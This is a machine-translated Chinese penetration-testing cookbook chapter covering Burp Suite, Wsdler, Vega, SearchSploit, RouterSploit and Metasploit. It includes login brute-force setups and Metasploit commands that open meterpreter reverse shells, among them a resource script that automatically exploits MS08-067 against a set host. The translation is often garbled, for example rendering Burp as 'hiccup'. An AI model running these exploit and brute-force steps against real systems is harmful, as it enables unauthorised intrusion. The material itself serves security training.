# 脆弱性评估

在本章中，我们将介绍以下配方：

*   使用臭名昭著的打嗝
*   利用 Wsdler 开发 wsdl
*   使用入侵者
*   使用 Vega 的 Web 应用程序 pentest
*   探索搜索引擎
*   利用 RouterSploit 开发路由器
*   使用 Metasploit
*   自动化 Metasploit
*   编写自定义资源脚本
*   Metasploit 中的数据库

# 介绍

在前几章中，我们介绍了收集目标信息的各种方法。现在，一旦我们掌握了所有这些数据，我们就需要开始寻找漏洞。要成为一名优秀的 pentester，我们需要确保不忽略任何小细节。

# 使用臭名昭著的打嗝

打嗝已经存在多年了；它是 PortSwigger web security 在 Java 中构建的多个工具的集合。它有多种产品，如解码器、代理、扫描仪、入侵者、中继器等。Burp 具有一个扩展器，它允许用户加载不同的扩展，可以用来使 pentesting 更加高效！您将在接下来的食谱中了解其中一些。

# 怎么做。。。

让我们来看看如何有效地使用嗝：

1.  Kali 已经有了 Burp 的免费版本，但是我们需要一个完整的版本来充分利用它的功能。因此，我们打开打嗝：


2.  单击开始打嗝，我们将看到打嗝加载：


3.  在我们开始寻找 bug 之前，我们首先安装一些可能会派上用场的扩展。从扩展器菜单中选择 BApp 存储：



4.  我们将看到一个扩展列表。我们必须安装的一些扩展如下：
    *   J2EEScan
    *   维斯德勒
    *   Java 反序列化扫描器
    *   心痛
5.  选择每个扩展后，单击 Install。

6.  一旦扩展都设置好了，我们就准备扫描。我们启动浏览器并转到其首选项：


7.  在网络设置中，我们添加 HTTP 代理 IP 和端口：



8.  我们可以通过代理菜单下的 Burp 选项选项卡验证这一点：


9.  单击 Intercept（截取）以开始截取请求：


10.  现在我们浏览需要扫描的网站。
11.  一旦捕获了所有请求，我们就可以简单地转到目标并选择我们的域。

12.  要执行扫描，我们可以选择单个请求并发送它们进行活动扫描：


13.  或者，我们可以选择整个域进行活动扫描：



14.  将请求发送到扫描仪后，我们将转到“扫描仪”选项卡并选择“选项”。在这里，我们实际上可以告诉扫描仪我们希望它在我们的应用程序中查找什么：



15.  我们可以在扫描队列选项卡中看到扫描结果：



16.  扫描队列选项卡可在以下屏幕截图中看到：


以下屏幕截图更详细地显示了“扫描队列”选项卡的结果：



虽然我们在这里只使用了一些扩展，但您也可以查看整个列表并选择自己的扩展。扩展很容易设置。

# 利用 Wsdler 开发 wsdl

**Web 服务描述语言**（**WSDL**是一种基于 XML 的语言，用于描述 Web 服务提供的功能。通常，在执行 pentest 项目时，我们可能会在未经验证的开放环境中找到 WSDL 文件。在本食谱中，我们将了解如何从 WSDL 中获益。

# 怎么做。。。

我们在 Burp 中拦截 WSDL 请求：

1.  右键单击请求并选择 Parse WSDL:



2.  切换到 Wsdler 选项卡，我们将看到所有服务调用。我们可以通过单击其中任何一个来查看完整的请求：


3.  为了能够使用它，我们需要将其发送到中继器：



4.  我们右键单击并选择发送到中继器：



5.  在我们的例子中，我们可以看到，只引用一个引号会导致错误。瞧！我们有 SQL 注入的可能性！


以下屏幕截图显示了 SQL 注入：


在本书后面的章节中，您将了解更多关于利用 SQL 的信息。

# 使用入侵者

入侵者是一个伟大的工具，它允许我们执行不同类型的攻击，可以用来发现各种漏洞。入侵者可以执行的一些最常见的攻击如下：

*   蛮力
*   起毛
*   列举
*   应用层 DoS

# 怎么做。。。

我们开始从捕获的请求中提取请求：

1.  右键单击请求并选择发送到入侵者：


2.  切换到入侵者选项卡。我们需要指定有效负载位置，我们可以通过选择所需位置或选择有效负载并单击添加按钮来实现：



3.  在本例中，由于我们正在执行登录暴力，我们将使用攻击类型 Pitchfork：



4.  接下来，我们切换到“有效载荷”选项卡。我们将在此处输入有效载荷：



5.  我们选择集合 1，当我们进行暴力攻击时，我们可以选择一个简单的列表作为有效负载类型。
6.  在有效负载选项中，我们指定要测试应用程序的单词列表。我们可以手动输入，也可以选择预构建列表：


7.  现在，我们选择 set 2 并再次指定希望工具尝试的密码列表：


8.  Burp 允许我们通过配置线程数、选择重定向选项甚至选项选项卡中的 Grep-Match 选项来定制攻击：


9.  我们点击开始攻击：



10.  将弹出一个新窗口，显示所执行攻击的所有结果。

在这里，我们只使用了一种攻击模式（干草叉）。可以在[了解入侵者的不同攻击模式 https://nitstorm.github.io/blog/burp-suite-intruder-attack-types/](https://nitstorm.github.io/blog/burp-suite-intruder-attack-types/) 。

# 使用 Vega 的 Web 应用程序 pentest

Vega 是 Java 内置的开源 web 应用程序测试工具。它有一个基于 JavaScript 的 API，这使得它更加强大和灵活。在下面的配方中，Vega 非常容易使用，您将学习如何使用它执行扫描。

# 准备

有些 Kali 版本没有安装 Vega，但可以使用以下命令安装：

```
apt-get install vega  
```

# 怎么做。。。

1.  Vega 内置于 Kali 中，可以使用以下命令启动：

```
 vega 
```

前面的命令打开 Vega 工具：


2.  在 Vega 中，有两种方式可以通过选择扫描仪模式或代理模式来启动扫描。我们在这里查看扫描仪模式。

3.  我们从扫描菜单中选择开始新扫描选项：


4.  在窗口中，我们输入网站 URL 并单击下一步：



5.  然后，我们可以选择要运行的模块：


6.  在此步骤中，我们可以输入 cookies：



7.  接下来，我们指定是否要排除任何参数，然后单击 Finish：


8.  我们可以在左侧窗格中看到结果和漏洞：



9.  单击警报可向我们显示详细信息：


10.  与 Burp 类似，Vega 还具有代理功能，我们也可以手动拦截和分析请求！
11.  我们可以编辑和重播请求以执行手动检查：



# 探索搜索引擎

SearchSploit 是一个命令行工具，允许我们搜索和浏览`exploitdb`上的所有可用漏洞。

# 怎么做。。。

1.  要查看帮助，请键入以下命令：

```
    searchsploit -h
```

以下屏幕截图显示了前面命令的输出：



2.  我们只需输入关键字即可执行搜索，如果要将漏洞复制到我们的工作目录中，我们将使用以下方法：

```
     searchsploit -m exploitdb-id
```

以下屏幕截图是上述命令的示例：


# 利用 RouterSploit 开发路由器

RouterSploit 是一个专门为嵌入式设备设计的路由器开发框架。它包括三个主要模块：

*   `exploits`：包含所有公开可用漏洞的列表
*   `creds`：用于测试不同设备的登录情况
*   `scanners`：用于检查针对特定设备的特定漏洞

# 准备

在开始之前，我们必须在卡利安装 RouterSploit；不幸的是，它并没有随操作系统的正式安装而来。RouterSploit 安装非常简单，就像我们在本书开头安装了一些工具一样。

# 怎么做。。。

1.  我们使用以下命令克隆 GitHub 存储库：

```
      git clone https://github.com/reverse-shell/routersploit
```

2.  我们使用`cd routersploit`命令进入目录，并按如下方式运行文件：

```
      ./rsf.py  
```

以下截图显示了*步骤 1*的输出：



3.  要对路由器进行攻击，只需键入以下内容：

```
      use exploits/routername/exploitname
```

以下屏幕截图显示了上述命令的示例：


4.  现在我们看到了可用于我们选择的漏洞利用的选项。我们使用以下命令：

```
      show options
```

以下屏幕截图显示了前面命令的输出：



5.  我们使用以下命令设置目标：

```
      set target 192.168.1.1
```

以下屏幕截图显示了前面命令的输出：



6.  要利用此漏洞，我们只需键入`exploit`或`run`：



# 使用 scanners 命令

以下步骤演示了`scanners`的使用：

1.  要扫描 Cisco 路由器，我们使用以下命令：

```
 use scanners/cisco_scan
```

2.  我们现在检查其他选项：

```
 show options
```

以下屏幕截图显示了前面命令的输出：



3.  要针对目标运行扫描，我们首先设置目标：

```
 set target x.x.x.x
```

以下屏幕截图显示了前面命令的输出：



4.  现在我们运行它，它将显示路由器易受攻击的所有漏洞：


# 使用信条

这可用于通过字典攻击测试服务上的默认密码组合：

1.  我们使用`creds`命令对各种服务运行字典攻击：

```
      use creds/telnet_bruteforce 
```

以下屏幕截图显示了前面命令的输出：



2.  接下来，我们看一下选项：

```
      show options
```

以下屏幕截图显示了前面命令的输出：


3.  现在我们设置目标 IP：

```
      set target x.x.x.x
```

4.  我们让它运行，它会显示它找到的任何登录名。


# 使用 Metasploit

Metasploit 是 pentesting 中使用最广泛的开源工具。它于 2001 年由 HD Moore 在 Perl 中首次开发；后来，它被完全用 Ruby 重写，然后被 Rapid7 收购。

Metasploit 包含一组利用漏洞、有效负载和编码器，可用于在 pentest 项目期间识别和利用漏洞。在本章中，我们将介绍一些能够更有效地使用**Metasploit 框架**（**MSF**）的方法。

# 怎么做。。。

以下步骤演示了 MSF 的使用：

1.  通过键入以下命令启动 MSF：

```
        msfconsole
```

以下屏幕截图显示了前面命令的输出：



2.  要搜索漏洞，请键入以下内容：

```
        search exploit_name
```

以下屏幕截图显示了前面命令的输出：


3.  要使用漏洞攻击，请键入以下内容：

```
        use exploits/path/to/exploit  
```

以下屏幕截图显示了前面命令的输出：



4.  接下来，我们通过键入以下内容查看选项：

```
        show options  
```

5.  在这里，我们需要为反向连接设置负载、目标 IP、本地主机和端口。
6.  我们使用以下方法设定目标：

```
        set RHOST x.x.x.x  
```

7.  我们使用以下方法设置有效负载：

```
 set payload windows/meterpreter/reverse_tcp  
```

8.  接下来，我们设置需要连接的`lhost`和`lport`：

```
 set lhost x.x.x.x
 set lport 4444
```

9.  现在，我们运行“利用漏洞”命令：

```
        exploit  
```

10.  成功利用后，我们将查看一个`meterpreter`会话：



虽然我们在这里只使用了 Windows`reverse_tcp`，但 Metasploit 还有许多其他有效负载，这取决于所使用的后端操作系统或 web 应用程序。有效载荷的完整列表见[https://www.offensive-security.com/metasploit-unleashed/msfpayload/](https://www.offensive-security.com/metasploit-unleashed/msfpayload/) 。

# 自动化 Metasploit

Metasploit 以不同的方式支持自动化。我们将在这里介绍的一种方法是资源脚本。

**资源脚本**基本上是一组在加载脚本时自动运行的命令。Metasploit 已经包含一组预构建的脚本，这些脚本在企业测试环境中被证明是最有用的。可用脚本的完整列表可在`/usr/share/metasploit-framework/scripts/resource`目录中查看：


# 怎么做。。。

以下步骤演示了 Metasploit 的自动化：

1.  我们使用以下命令启动 Metasploit：

```
        msfconsole 
```

前面命令的输出显示在以下屏幕截图中：


2.  有些脚本需要全局设置`RHOSTS`，所以我们使用以下命令设置`RHOSTS`：

```
        set RHOSTS 172.18.0.0/24 
```

前面命令的输出显示在以下屏幕截图中：


3.  现在，我们使用以下命令运行脚本：

```
        resource /usr/share/metasploit-framework
        /scripts/resource/basic_discovery.rc
```

4.  此脚本将在提供的子网上执行基本主机发现扫描：


# 编写自定义资源脚本

在下面的食谱中，我们将了解如何编写基本脚本。

# 怎么做。。。

按照给定的步骤编写基本脚本：

1.  我们可以打开任何编辑器-`nano`、`leafpad`等等。
2.  在这里，我们键入希望 MSF 执行的所有命令：

```
     use exploit/windows/smb/ms08_067_netapi
     set payload windows/meterpreter/reverse_tcp
     set RHOST 192.168.15.15
     set LHOST 192.168.15.20
     set LPORT 4444
     exploit -j
```

3.  我们使用`.rc`扩展名保存脚本：


4.  现在我们启动`msfconsole`并键入命令自动利用机器：



资源脚本只是自动化 Metasploit 的一种方法；在本文的[中，您可以了解其他自动化 Metasploit 的方法 https://community.rapid7.com/community/metasploit/blog/2011/12/08/six-ways-to-automate-metasploit](https://community.rapid7.com/community/metasploit/blog/2011/12/08/six-ways-to-automate-metasploit) 。

# Metasploit 中的数据库

在 Kali Linux 中，我们必须在使用数据库功能之前设置一个数据库。

# 怎么做。。。

以下步骤演示了数据库的设置：

1.  首先，我们使用以下命令启动`postgresql`服务器：

```
        service postgresql start  
```

以下屏幕截图显示了前面命令的输出：



2.  然后，我们创建并初始化数据库：

```
        msfdb init  
```

3.  完成后，我们加载`msfconsole`。现在，我们可以在 Metasploit 中创建和管理工作区。工作区可以被视为一个空间，在这里我们可以通过分类保存所有的 Metasploit 数据。要设置新的工作区，我们使用以下命令：

```
        workspace -a workspacename
```

以下屏幕截图显示了前面命令的输出：


4.  要查看与工作区相关的所有命令，我们可以执行以下操作：

```
 workspace -h  
```

5.  现在我们已经设置了数据库和工作区，我们可以使用各种命令与数据库交互。
6.  要将现有 Nmap 扫描导入数据库，我们使用以下命令：

```
        db_import  path/to/nmapfile.xml
```

以下屏幕截图显示了前面命令的输出：



7.  导入完成后，我们可以使用以下命令查看主机：

```
 hosts
```

以下屏幕截图显示了前面命令的输出：



8.  要仅查看 IP 地址和操作系统类型，我们使用以下命令：

```
        hosts -c address,os_flavor
```

以下屏幕截图显示了前面命令的输出：



9.  现在假设我们要执行 TCP 辅助扫描。我们也可以将所有这些主机设置为辅助主机的`RHOSTS`。我们使用以下命令执行此操作：

```
        hosts -c address,os_flavor -R  
```

以下屏幕截图显示了前面命令的输出：



10.  由于`RHOSTS`已经设置，它们可以跨 Metasploit 用于所需的任何模块。
11.  让我们再看一个例子，其中导入的 Nmap 扫描已经包含了我们需要的所有数据。我们可以使用以下命令列出数据库中的所有服务：

```
        services
```

12.  要仅查看正在运行的服务，我们可以使用`-u`开关：



13.  我们甚至可以通过`-p`交换机查看特定端口的列表：

